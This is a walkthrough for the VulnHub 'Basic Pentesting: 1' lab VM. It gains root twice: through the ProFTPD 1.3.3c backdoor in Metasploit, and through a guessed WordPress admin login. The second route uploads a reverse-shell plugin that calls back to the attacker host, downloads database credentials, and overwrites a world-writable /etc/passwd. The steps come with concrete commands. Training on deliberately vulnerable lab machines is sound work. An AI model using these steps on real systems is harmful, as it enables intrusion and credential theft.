 # Basic Pentesting: 1
[VulnHub link](https://www.vulnhub.com/entry/basic-pentesting-1,216/)  
By Josiah Pierce  

* After the victim VM has been booted up, we are greeted with a login page that requests for the password of user marlinspike. We attempt a few common passwords such as `password` and `admin`, but we do not manage to login expectedly.
* The IP address of the victim VM can be found by clicking the icon with 2 arrows pointing up and down respectively on the top right-hand corner of the login page, which is `10.0.2.4`. Thus, no nmap scans are needed.
![](/screenshots/basic-pentesting-1/Login.jpg)
* Alternatively, you can log in through a Guest Session, and then run `ifconfig` from the Terminal to obtain the victim's IP address.
* From our Kali VM, run `nmap -p- -A 10.0.2.4`, which means to scan all ports from 1 to 65535 (0 is excluded), and to enable OS detection, version detection (for the available services), script scanning, and traceroute:
![](/screenshots/basic-pentesting-1/scanAllPortsandServiceVersions.jpg)
* There are 3 ports that are open: 21 (ftp), 22 (ssh) and 80 (http). This means that we can gain entry to the victim VM either via the FTP, SSH or HTTP service. The respective versions of these services are also listed.
* We will explore 2 methods from here onwards to gain root access, through either the FTP or HTTP service. The former takes lesser time (i.e. simpler).

# Method 1 (FTP service) #
* Searching `ProFTPD 1.3.3c` (which is the version of the FTP service) reveals that it has a [malicious backdoor that was added to the ProFTPD download archive](https://www.rapid7.com/db/modules/exploit/unix/ftp/proftpd_133c_backdoor).
* Run `msfconsole`, then `search proFTPD` to find out if there is an available module that exploits the backdoor mentioned above:
![](/screenshots/basic-pentesting-1/msfconsoleProFTPD.jpg)
* Indeed there is such an available module, and we see that it is ranked as excellent as well.
* Run `use exploit/unix/ftp/proftpd_133c_backdoor` for us to use the module, and then `show options` to see that there are 2 parameters in the module: RHOST (value: empty) and RPORT (value: 21).
* Set RHOST to be our victim's IP address: `set RHOST 10.0.2.4`. RPORT 21 is correct since we are targeting the FTP service, hence it will not be modified.
* Run `show options` again to confirm that we have the correct parameters set:
![](/screenshots/basic-pentesting-1/backdoorOptions.jpg)
* Run `exploit`:
![](/screenshots/basic-pentesting-1/exploitRootFTP.jpg)
* And we are done! We have gained root access with a shell on the victim VM.

# Method 2 (HTTP service) #
* We will first have a go with the HTTP service, thus we visit `10.0.2.4` and find a web server running:
![](/screenshots/basic-pentesting-1/httpServicePage.jpg)
* Note: Viewing the page source reveals no additional information.
* Note: Some common files and pages which we tried such as /robots.txt, /admin, /login.php are invalid pages as well.
* Though the page said that "no content has been added yet", we will still run our tools to verify if this is really the case: run `dirbuster`, which tries to find hidden files and directories using a user-supplied wordlist.
* Put `http://10.0.2.4` into the `Target URL` of dirbuster. We will use a wordlist that is provided by dirbuster, which can be found in `/usr/share/dirbuster/wordlists`. We will use `directory-list-lowercase-2.3-small.txt` for a start. We can stick with the existing 10 threads.
![](/screenshots/basic-pentesting-1/dirbusterSettings.jpg)
* While waiting for dirbuster to do its job (it will take a minute or two), we will look at other areas, such as verifying that it is indeed the ssh service which is running at port 22: `ssh marlinspike@10.0.2.4 -p 22`. Since there is a response that requests for the password, we can confirm that it is indeed the case.
* Heading back to dirbuster, we find that there is a directory called `secret` that contains `wp-admin`, `wp-content`, `wp-includes`, etc.
![](/screenshots/basic-pentesting-1/dirbusterResults.jpg)
* With `10.0.2.4/secret`, we expect a WordPress page to load, which happens (page is titled "My secret blog"). Note: the page loads rather slowly (notice that there is the message "Looking up vtsec at the bottom bar of the browser") and the page contents are not loaded properly, i.e. positioning of the texts, icons are off, as if there was no CSS.
* Placing our mouse over some of the links, we find that the hyperlink domain is actually `vtcsec`. A very likely reason that the page was loading slowly is that the browser was trying to resolve vtcsec, but was unable to do so eventually.
* Next, we will add an entry (`10.0.2.4 vtcsec`) into the Hosts file in Kali: open (`vim /etc/hosts`) and edit the file, before saving it. What this means is that the IP address of vtcsec is determined by us to be 10.0.2.4, and any  accesses to vtcsec will access 10.0.2.4, instead of trying to find out its IP address from a DNS server.
![](/screenshots/basic-pentesting-1/hostsFileEntries.jpg)
* Note: We could also add other mappings such as `10.0.2.4 vtcsec.com`, just in case there might be cases where there is a `.com` domain extension for one of the hyperlinks in the WordPress page, though we have yet to see one so far.
* Reload `10.0.2.4/secret` and volia, we see that the page has been properly loaded. This is because the CSS was trying to pull from a domain that did not exist until we added the entries to the Hosts file.
* There is no interesting content on the site's post, so we head to the Login page of the WordPress site (/wp-login.php) and attempt to login using the username `admin` and a random password. Using a random password allows us to check if an account with the username admin exists. The error message from an invalid login, that "the password you entered for the username admin is incorrect" confirms so. This is a form of information leakage in my opinion on WordPress' part.
* Next, we attempt a quick guess with the password `admin` for the admin account, and access is granted. No kind of bruteforcing is required here.
* Head to the `Plugins` page and install `malicious-wordpress-plugin` by `wetw0rk` [(GitHub link)](https://github.com/wetw0rk/malicious-wordpress-plugin). Once it is installed on the WordPress site, a reverse shell is granted.
* Before beginning the installation of the plugin, we will first start up our listener by cloning and opening the Git repository from our Kali terminal, and execute `python wordpwn.py 10.0.2.15 4000 Y`. The format for the command is `wordpwn.py [LHOST] [LPORT] [HANDLER]`. The IP address is that of the Kali machine.
* The payload is then generated in the `malicious.zip` file. Once the reverse TCP handler (listener) is started on the Kali terminal, we can upload the payload as a plugin (`GotEm`) to the WordPress site, and activate it.
* We will next head to the plugins editor, select the GotEm plugin to find out the path to the files which are within the plugin, which are `malicious/QwertyRocks.php` and `malicious/wetw0rk_maybe.php`. There are only documentation codes (commented) in the former, and in the latter, we find that there is a whole long string within a base64_decode and eval function.
* Next, we head to `vtcsec/secret/wp-content/plugins/malicous/wetw0rk_maybe.php` on our browser to connect to the reverse shell.
* Heading back to our Kali terminal, we see that a meterpreter session has been opened, and enter `shell`. Executing `whoami`, we see that we are `www-data`. We have now successfully logged into the victim VM. Exit from the shell after this by running `exit`.
* From the reverse shell which we have gotten, we can go up 3 levels of directory to reach one that contains a number of `wp-` PHP files, and specifically we want to download the wp-config.php to the root folder (i.e. back to our Kali machine): `download wp-config.php`.
* Open up the config file from our Kali machine with a text editor, and we find that we have the MySQL database username `root` and password `arootmysqlpass`.
* Side-note: We can probably do a **privilege escalation** from here after logging in to the database, but this is not the focus here at this moment.
* Next, we will use `unix-privesc-check` from `pentestmonkey` [(GitHub link)](https://github.com/pentestmonkey/unix-privesc-check) on the victim VM. This tool is a "shell script to check for simple privilege escalation vectors on Unix systems". Clone the repository to the Kali VM, and run `git checkout 1_x`. We are using this branch's single shell script instead of the method from the master branch.
* On our meterpreter session, cd to `/var/www/html`, which hosts the WordPress page. We will now upload the unix-privesc-check tool to the victim VM: `upload ../unix-privesc-check/unix-privesc-check`.
* Give executable permissions to the script via chmod after running `shell` (interesting, if we were to run `chmod +x unix-privesc-check` before running `shell`, the file ends up having no permissions at all), and then run `./unix-privesc-check standard > output.txt`. Wait for awhile for our results to be redirected to output.txt, and we exit from shell. Next, run `download output.txt`.
* Alternatively, we can choose to have the result's output to the terminal (and not to redirect the output of the script to an external file), though I find this to be somewhat messy.
* As we see from the instructions at the top of the output file, if there is no string "WARNING" in the file, the script did not find any problems. Our first result from finding WARNING is that `/etc/passwd` can be written by anyone (world write).
![](/screenshots/basic-pentesting-1/writeablePasswdFile.jpg)
* Run `download /etc/passwd` from our meterpreter session.
* The first line of /etc/passwd is `root:x:0:0:root:/root:/bin/bash`. We see an `x`, which is a holding place for root's "encrypted password". Traditionally, this field actually stored the user's encrypted password. Modern Unix systems store encrypted passwords in a separate file (the shadow password file) that can be accessed only by privileged users.
* However, we can overwrite the `x` with a hash of a known password.
* Note: Removing the x might seem like an obvious choice to make the root account accessible without any password. However, it does not work here (*find out why!*), and we will still be prompted for a password when we run `su` as shown below.
* Run `openssl passwd -1 pass` (`pass` is our simple password here). `openssl passwd` computes the hash of our password typed at run-time in this case, e.g. `$1$H6IJSTRO$Fcs6RA7D6/wnJM6dK.GSV1` for `pass`. `-1` means the use of MD5 based BSD password algorithm 1.
* Alternatively, if you want to run the openssl command without letting your password be shown in plaintext on the terminal, as well as to confirm your password, run the same command without the last parameter being your password.
* Note: The hash of the password generated by openssl will differ with each run of the command.
* Replace the `x` with our hash value, save the file, and upload the file back to the victim VM: `upload passwd /etc/passwd`.
* Run `shell`, then `su`, but there is an error stating that su must be run from a terminal.
* Execute `python -c 'import pty; pty.spawn("/bin/bash")'` (or `/bin/sh`) to spawn a proper shell, then run `su`. Note: When called without arguments, su defaults to running an interactive shell as `root`.
* Enter our password created above (e.g. `pass`), and we have got root access!
